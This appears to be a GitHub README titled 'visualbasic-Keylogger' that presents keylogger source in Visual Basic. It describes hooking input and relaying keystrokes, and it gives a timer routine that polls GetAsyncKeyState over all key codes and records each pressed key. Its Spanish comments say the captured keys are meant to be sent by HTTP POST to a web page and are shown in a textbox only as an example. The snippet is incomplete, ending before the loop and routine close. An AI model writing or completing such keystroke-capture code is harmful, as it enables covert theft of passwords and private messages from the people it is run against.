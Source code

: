 visualbasic-Keylogger
=====================

Labels
VisualBASIC, VisualStudio, keylogger, jamesjara

Keylogger for vB

Keylogger example in visual basic by james jara

Hooks the inputs of an anyplace and relays the keystrokes.  

```Visualbasic
Private Sub Timer1_Timer()
' el timer detecta cada cierto tiempo la tecla
Dim numerodeteclas As Integer
For numerodeteclas = 0 To 255

'GetAsyncKeyState detecta el estado de la tecla presionada
If GetAsyncKeyState(numerodeteclas) = -32767 Then

'Aqui envia los datos por medio de http post a una pagina web
' ahorita los escirbe en el textbox para ejemplo
Text1.Text = Text1.Text + Chr(numerodeteclas)

End If
```
